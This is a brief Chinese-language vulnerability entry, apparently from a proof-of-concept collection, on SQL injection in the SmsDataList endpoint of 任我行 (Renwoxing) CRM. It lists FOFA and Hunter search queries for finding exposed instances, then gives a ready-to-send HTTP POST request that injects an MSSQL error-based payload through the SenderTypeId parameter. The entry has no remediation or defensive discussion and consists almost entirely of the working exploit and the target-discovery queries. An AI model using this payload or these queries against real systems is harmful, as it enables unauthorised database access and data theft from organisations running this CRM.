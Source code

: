 # 任我行 CRM SmsDataList SQL注入漏洞

## 网络测绘

fofa: app="任我行-CRM"

hunter: app.name="任我行 CRM"

## POC / EXP

```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```
